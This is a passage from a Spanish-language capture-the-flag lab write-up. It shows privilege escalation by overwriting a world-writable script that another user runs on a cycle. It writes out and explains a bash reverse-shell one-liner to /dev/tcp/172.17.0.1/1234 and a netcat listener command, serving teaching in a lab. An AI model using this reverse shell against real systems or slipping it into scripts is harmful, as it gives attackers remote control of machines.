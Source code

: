 ![Img](/Attachments/Pasted%20image%2020250621170743.png)

>Vemos que Valentina ejecuta el comando "/bin/sh -c sleep 45; /opt/log_cleaner.sh" de manera cíclica. Listaremos permisos del archivo sobre el que se ejecuta el comando, con algo de suerte:

![Img](/Attachments/Pasted%20image%2020250621171331.png)
_la "w" en la zona izquierda de los permisos hace referencia a writable, y la "r" a readable, en pocas palabras, todos los usuarios del sistema tienen permisos de lectura, y escritura sobre el._

>Tenemos permisos para modificar el archivo, vamos a crear una Revese Shell:

![Img](/Attachments/Pasted%20image%2020250621172156.png)
![Img](/Attachments/Pasted%20image%2020250621172232.png)
1. _bash -i Lanza una bash en modo interactivo (para tener una Shell medianamente funcional)_
2. _>& /dev/tcp/172.17.0.1/1234 0>&1 Es una manera PROPIA de bash para abrir una conexión TCP hacia una ip y un puerto, con la primera parte >& /dev/tcp/ip/puerto dirigimos el stdout (respuestas de la Shell) de la maquina victima a nuestra ip, y con la segunda parte 0>&1 indicamos que el stdin(comandos que insertamos) de nuestra máquina irá a la ip victima para ser interpretado. En pocas palabras, abrimos una comunicación bidireccional entre nuestra ip y la ip victima, redireccionando nuestra entrada estándar (stdin) y la salida estándar de la víctima (stdout)._

>Debemos disponer nuestra máquina para recibir una Shell desde otro equipo, para esto, nos ponemos en escucha por el puerto 1234 con “nc”:

![WhereIsMyWeb Shell](/Attachments/Where%20Is%20My%20Web%20Shell%2014.png)
1. nc Es un binario multipropósito, sirve para ejecutar shells, transferir archivos, enviar y recibir datos, etc, etc…
2. -n Igual que con nmap, este parámetro nos quita la resolución automática de nombres de host (para acelerar el proceso)
3. -l Con este parámetro entramos en un modo de escucha de conexiones
4. -v El modo verbose lo usamos para ver más detalles sobre la escucha e información de la conexión
5. -p con este parámetro indicamos el puerto que estará en escucha, en este caso el 1234
